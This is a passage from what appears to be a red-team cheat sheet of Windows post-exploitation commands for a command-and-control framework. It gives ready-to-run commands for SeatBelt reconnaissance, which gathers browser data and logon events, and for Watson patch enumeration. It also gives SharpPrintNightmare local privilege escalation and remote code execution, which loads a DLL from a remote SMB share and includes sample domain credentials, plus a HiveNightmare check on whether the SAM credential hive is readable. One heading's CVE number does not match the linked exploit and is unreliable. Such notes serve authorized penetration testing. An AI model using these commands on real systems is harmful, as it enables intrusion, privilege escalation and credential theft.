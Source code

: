 # Run only miscellaneous-related checks - returns things like Chrome data, logon events, LOBAS, interesting files, downloads, PS events, scheduled tasks, etc.
execute-assembly C:\SeatBelt.exe -group=misc -outputfile="C:\Temp\SeatBelt-misc.json"
```

### Watson - .NET version of Sherlock.ps1 to look for missing KBs on Windows
```
# Peroform all checks and output to console
# Supports:
    Windows 10 1507, 1511, 1607, 1703, 1709, 1803, 1809, 1903, 1909, 2004
    Server 2016 & 2019
execute-assembly C:\Watson.exe 
```

### PrintNightmare priv esc exploit (CVE-2021-3452)
```
# Impacket's PrintNightmare: https://github.com/cube0x0/CVE-2021-1675
# Impacket's SharpNightmare (Csharp): https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare
# PowerShell PrintNightmare local priv esc: https://github.com/calebstewart/CVE-2021-1675

# Local priv esc
execute-assembly C:\SharpPrintNightmare.exe C:\addCube.dll

# RCE using existing context
execute-assembly C:\SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

# RCE using runas /netonly
execute-assembly C:\SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
```

### HiveNightmare priv esc SAM dump (CVE-2021–36934)
Exploit in Windows 10 and 11 which allows you to read the SAM, SYSTEM and SECURITY hives as a low-privileged user
```
# First check privileges to read SAM hive
run icacls C:\Windows\System32\config\SAM
--> If the results show success and the group BUILTIN\Users has privileges (I)(RX) then the SAM file should be readable by all users! 
